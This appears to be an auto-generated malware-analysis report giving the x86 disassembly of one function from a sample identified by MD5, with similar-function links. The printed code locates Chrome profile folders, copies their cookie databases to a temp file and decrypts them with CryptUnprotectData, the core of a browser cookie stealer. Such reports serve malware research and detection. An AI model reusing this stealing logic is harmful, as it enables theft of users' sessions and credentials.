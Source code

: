 ```yaml
---
layout: post
title:  "fcn.00473bc1 @ 152885a790b99953ce23874f0947b7bd"
date:   2021-08-30 15:52:19 +0300
categories: report
index: false
---
```


# Generic Information
- **Function:** fcn.00473bc1
- **Origin (md5):** 152885a790b99953ce23874f0947b7bd
- **VirusTotal:** [virustotal.com/gui/file/152885a790b99953ce23874f0947b7bd][virustotal_ref]

# Code Tags
<span class="tag" id="FILE">FILE</span>


# Similar Functions

1. [fcn.00473bc1][similar_1_ref] (sim.: 1.0)
2. [fcn.00473bc1][similar_2_ref] (sim.: 1.0)
3. [fcn.0040b9f0][similar_3_ref] (sim.: 0.892322380785086)
4. [fcn.00417a43][similar_4_ref] (sim.: 0.8919090025583186)
5. [fcn.10003110][similar_5_ref] (sim.: 0.884708010007365)


# Disassembled Code

{% highlight nasm %}
push 0xe7c
mov eax,0x49ab4c
call fcn.00481ea4
mov edi,ecx
lea eax,[ebp-0x424]
mov dword[ebp-0xda4],edi
push eax
xor esi,esi
push esi
push esi
push 0x801c
push esi
call dword[sym.imp.SHELL32.dll_SHGetFolderPathW]
test eax,eax
js 0x473f85
mov ebx,dword[sym.imp.SHLWAPI.dll_PathAppendW]
lea eax,[ebp-0x424]
push str.GoogleChromeUser_Data
push eax
call ebx
lea eax,[ebp-0x424]
push eax
lea eax,[ebp-0x834]
push 0x104
push eax
call fcn.00481a97
add esp,0xc
lea eax,[ebp-0x834]
push 0x4ae8d0
push eax
call ebx
lea eax,[ebp-0x834]
xorps xmm0,xmm0
push eax
lea ecx,[ebp-0xd98]
movlpd qword[ebp-0xdb4],xmm0
call fcn.00473a35
mov dword[ebp-4],esi
lea ecx,[ebp-0xd98]
call fcn.00473a57
lea ecx,[ebp-0xd98]
test al,al
je 0x473f80
call fcn.0040547a
test byte[eax],0x10
je 0x473c54
lea ebx,[eax+0x2c]
push 0x4ae754
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax,eax
je 0x473c54
push 0x4ae758
push ebx
call fcn.00481af3
pop ecx
pop ecx
test eax,eax
je 0x473c54
lea eax,[ebp-0x424]
push eax
lea eax,[ebp-0x21c]
push 0x104
push eax
call fcn.00481a97
add esp,0xc
lea eax,[ebp-0x21c]
push ebx
mov ebx,dword[sym.imp.SHLWAPI.dll_PathAppendW]
push eax
call ebx
push str.cookies
lea eax,[ebp-0x21c]
push eax
call ebx
lea eax,[ebp-0xa3c]
push eax
push 0x104
call dword[sym.imp.KERNEL32.dll_GetTempPathW]
lea eax,[ebp-0x62c]
push eax
push esi
push 0x4ae770
lea eax,[ebp-0xa3c]
push eax
call dword[sym.imp.KERNEL32.dll_GetTempFileNameW]
push esi
lea eax,[ebp-0x62c]
push eax
lea eax,[ebp-0x21c]
push eax
call dword[sym.imp.KERNEL32.dll_CopyFileW]
test eax,eax
je 0x473f6e
lea ecx,[ebp-0xabc]
call fcn.00473faa
lea eax,[ebp-0x62c]
mov byte[ebp-4],2
push eax
lea ecx,[ebp-0xb40]
call fcn.00404fdb
mov ecx,eax
mov byte[ebp-4],3
call fcn.00404b49
push eax
lea ecx,[ebp-0xe88]
call fcn.0041d750
lea ecx,[ebp-0xb40]
mov byte[ebp-4],5
call fcn.0040501c
push ecx
lea eax,[ebp-0xe88]
push eax
lea ecx,[ebp-0xdc8]
call fcn.0041da8e
lea eax,[ebp-0xda0]
mov byte[ebp-4],6
push eax
lea ecx,[ebp-0xdc8]
call fcn.0041daa4
lea eax,[ebp-0xde0]
push eax
call fcn.0041dab7
mov edx,eax
lea ecx,[ebp-0xda0]
call fcn.0047517d
test al,al
je 0x473f07
push esi
lea eax,[ebp-0xa6c]
push eax
lea eax,[ebp-0xdd4]
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.00475197
push ecx
lea eax,[ebp-0xdcc]
mov byte[ebp-4],7
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.004751c4
mov ebx,eax
lea eax,[ebp-0xdd0]
push ecx
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.0041d96d
mov dword[ebp-0xdbc],eax
lea eax,[ebp-0xdac]
push eax
push 1
push esi
push esi
push esi
push esi
lea eax,[ebp-0xdbc]
mov dword[ebp-0xdb8],ebx
push eax
call dword[sym.imp.CRYPT32.dll_CryptUnprotectData]
test eax,eax
je 0x473ee8
push 2
lea eax,[ebp-0xa54]
push eax
lea eax,[ebp-0xdd8]
push eax
lea ecx,[ebp-0xda0]
call fcn.00474e8e
mov ecx,eax
call fcn.00475197
mov byte[ebp-4],8
lea ecx,[ebp-0xa84]
push dword[ebp-0xdac]
push dword[ebp-0xda8]
call fcn.0040a731
push ecx
lea ecx,[edi+6]
mov byte[ebp-4],9
push ecx
lea ecx,[ebp-0xdb4]
push ecx
mov ecx,eax
call fcn.0040b51d
push eax
lea ecx,[ebp-0xa6c]
call fcn.0040b51d
push eax
call fcn.0047fccc
pop ecx
push edx
push eax
lea ecx,[ebp-0xa54]
call fcn.0040b51d
push eax
lea ecx,[ebp-0xabc]
call fcn.00473ab8
lea ecx,[ebp-0xa84]
mov bl,al
call fcn.0040b62f
test bl,bl
je 0x473ecd
mov byte[edi+5],1
lea ecx,[ebp-0xa54]
mov byte[ebp-4],7
call fcn.0040b62f
push dword[ebp-0xda8]
call dword[sym.imp.KERNEL32.dll_LocalFree]
lea ecx,[ebp-0xa6c]
mov byte[ebp-4],6
call fcn.0040b62f
lea ecx,[ebp-0xda0]
call fcn.00474ea7
jmp 0x473d8e
push ecx
lea eax,[edi+6]
push eax
lea eax,[ebp-0xdb4]
push eax
push 0x4a3288
push esi
push esi
push 0x4a3288
lea ecx,[ebp-0xabc]
call fcn.00473ab8
test al,al
je 0x473f32
mov byte[edi+5],1
lea ecx,[ebp-0xdc8]
mov byte[ebp-4],5
call fcn.00473fd9
lea ecx,[ebp-0xe88]
mov byte[ebp-4],2
call fcn.0041d7ec
lea ecx,[ebp-0xabc]
call fcn.00473fc6
jmp 0x473f6b
mov dword[ebp-4],esi
lea eax,[ebp-0x62c]
push eax
call dword[sym.imp.KERNEL32.dll_DeleteFileW]
jmp 0x473c54
call fcn.00473a97
call fcn.00481df6
ret
{% endhighlight %}


[similar_1_ref]: /report/fcn.00473bc1@912f1d013a0d6151bc7a7cef6da1b2a0
[similar_2_ref]: /report/fcn.00473bc1@fb9b7d22bc1c143ac66b0575cbdd088d
[similar_3_ref]: /report/fcn.0040b9f0@418e0921f3a9bd4f5bc0dcc59623b5a1
[similar_4_ref]: /report/fcn.00417a43@44e1ffcf4e71f4505c09d520fd75f1e4
[similar_5_ref]: /report/fcn.10003110@090dc3a8da6aa33c667b678303e4bdd6
[virustotal_ref]: https://www.virustotal.com/gui/file/152885a790b99953ce23874f0947b7bd